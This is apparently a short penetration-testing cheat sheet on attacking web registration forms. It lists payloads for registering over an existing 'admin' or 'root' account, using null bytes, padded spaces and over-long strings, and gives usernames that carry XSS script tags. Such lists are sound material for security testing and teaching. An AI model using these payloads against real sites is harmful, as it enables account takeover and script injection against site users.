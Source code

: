 ```yaml
---
title: Web Registration Attack
description: Registration mechanism might be vulnerable to compromise.
tags:
    - Web
refs:
date: 2023-07-22
draft: false
---
```


## Register with the Same Username/Email Address as Existing User

We might be able to register the same username/email address as the existing user. It may affect the web server so be careful when testing.  
Here are examples of username to register.

```bash
admin
administrator
root
```

Alternatively, it’s worth to try various approach to register.

```bash
# Insert null byte
admin%00

# Insert a space before username
 admin
%20admin

# Insert a space after username
admin 
admin%20

# Insert spaces around username
 admin 
%20admin%20

# Overflow (we need to find the longest characters that can be registered)
xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxadmin
```

<br /><br />

## Username with XSS

We might be able to inject XSS in username when registration.  

```bash
john<script>alert(1)</script>
john</span><script>alert(1)</script>

# Overflow character length
xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx<script>alert(1)</script>
```